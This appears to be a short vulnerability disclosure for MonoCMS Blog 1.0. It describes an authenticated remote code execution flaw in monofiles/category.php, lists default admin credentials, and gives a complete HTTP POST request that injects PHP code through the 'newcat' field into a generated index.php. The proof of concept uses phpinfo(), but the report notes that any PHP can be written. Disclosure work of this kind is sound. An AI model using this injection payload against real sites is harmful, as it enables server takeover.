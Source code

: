 My env
MonoCMS Blog 1.0

php 5.6.9

Windows

 category rce 
At monofiles/category.php:27, user input was saved to category/[foldername]/index.php causing RCE.

 

First Step:

Login to your account(default:admin/1234) 

 

Send an request:


POST /monofiles/category.php HTTP/1.1
Host: 172.16.105.29
Content-Length: 68
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.105.29
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.105.29/monofiles/category
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: MON=r1u4c0k2mv2c222linpoma712m
Connection: close

newcat=test%22%3Bphpinfo%28%29%3Bexit%28%29%3B%2F%2F&foldername=test

 

We can write any php code into index.php 
![image](https://github.com/fortest-1/vuln/blob/main/MonoCMS%20Blog/img/1.png?raw=true)
![image](https://github.com/fortest-1/vuln/blob/main/MonoCMS%20Blog/img/2.png?raw=true)



 

 



 
